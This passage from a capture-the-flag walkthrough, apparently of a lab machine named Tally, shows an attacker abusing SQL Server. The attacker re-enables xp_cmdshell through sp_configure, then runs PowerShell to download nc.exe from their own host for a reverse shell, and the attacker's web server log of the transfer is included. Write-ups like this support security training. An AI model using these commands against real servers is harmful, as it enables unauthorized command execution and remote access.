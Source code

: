 We get an output back, which tells us the current user is Sarah. This is very uncomfortable to look at for every command of course, so instead of using this interface I'll be downloading nc.exe on the box and running it to get a reverse shell, although the xp_cmdshell procedure turned itself off after running just one command:

```
1> xp_cmdshell 'powershell invoke-webrequest http://10.10.14.37:9090/nc.exe -outfile nc.exe'
2> go
Msg 15281, Level 16, State 1
Server 'TALLY', Procedure 'xp_cmdshell', Line 1
SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of
the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For
more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
1>
```

So we have to enable it manually:

```aaa
1> exec sp_configure 'show advanced options',1
2> reconfigure
3> go
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> exec sp_configure 'xp_cmdshell',1
2> reconfigure
3> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
```

Now we can download nc.exe from our box:

```aaa
1> xp_cmdshell 'powershell invoke-webrequest http://10.10.14.37:9090/nc.exe -outfile c:\users\sarah\downloads\nc.exe'
2> go
```

I had to specify an absolute path or else the file would have been downloaded in System32 and because we don't enough privileges to write in that folder the command would fail, so instead I chose our current user's Downloads folder and the file is downloaded correctly:

```aaa
┌─[baud@parrot]─[~/server]
└──╼ $php -S 0.0.0.0:9090 -t .
PHP 7.3.4-2 Development Server started at Mon Sep  2 00:55:31 2019
Listening on http://0.0.0.0:9090
Document root is /home/baud/server
Press Ctrl-C to quit.
[Mon Sep  2 01:03:20 2019] 10.10.10.59:51038 [200]: /nc.exe
```
